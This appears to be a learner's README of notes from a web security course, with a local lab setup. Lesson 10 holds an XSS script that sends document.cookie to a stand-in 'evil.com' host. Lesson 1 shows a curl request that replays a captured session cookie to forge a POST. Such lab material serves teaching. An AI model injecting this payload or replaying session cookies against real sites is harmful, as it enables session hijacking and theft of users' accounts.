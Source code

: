 # Web Security Essentials

The code in this repository is based on the
[Web Security Essentials](https://egghead.io/lessons/express-course-overview-web-security-essentials)
course.
The preceding repository was also forked to
[this repo](https://github.com/carltonj2000/web-security-essentials)

## Setup

From the repository link in the above section, did the following:

- Used the code from `./exercises/01` as the starter code.
  - deleted `_INSTRUCTIONS.md` and `_SOLUTIONS.md`.
- Copied `./package.json` and ran `npm install` to install the dependencies.
- Ran `npm run start` and verified `http://localhost.charlesproxy.com`.
- Ran `npm run start:evil.com` and verified `https://evil.com:666`.
- Notes from each lessons follows in reverse chronological order.
- [Git hub repo](https://github.com/carltonj2000/web-sec-ess)
  created with all content note above.

## Lesson 10

---

<script>
  const payload = encodeURIComponent(document.cookie);
  const img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>

---

## Lesson 1

In the `./exercises/01` ran `npm start` and `npm run start:evil.com`.
Use `proxyman` to capture a post request from `localhost.charlesproxy.com` and
modified the following lines to post a custom message. Deleted the proxy line.

---

-H 'Content-Length: 13' \
--proxy http://localhost:9090 \
-d 'message=hello'

---

---

curl 'http://localhost.charlesproxy.com/' \
-X POST \
-H 'Accept: _/_' \
-H 'Host: localhost.charlesproxy.com' \
-H 'Accept-Language: en-US,en;q=0.9,vi-VN;q=0.8,vi;q=0.7' \
-H 'Referer: http://localhost.charlesproxy.com/' \
-H 'Content-Length: 24' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36' \
-H 'Origin: http://localhost.charlesproxy.com' \
-H 'Proxy-Connection: keep-alive' \
--cookie '\_ga=GA1.2.761887530.1582043871; \_gid=GA1.2.218915999.1582043871; connect.sid=s%3AzLtpL8zTUgQLX0EwsUX9uMuHwZTezm-z.pxrPgt%2BNCyiV678Gz%2BUUOfuUUhRXl%2FWuW2PyH204oLk' \
-d 'message=carlton+was+here'

---
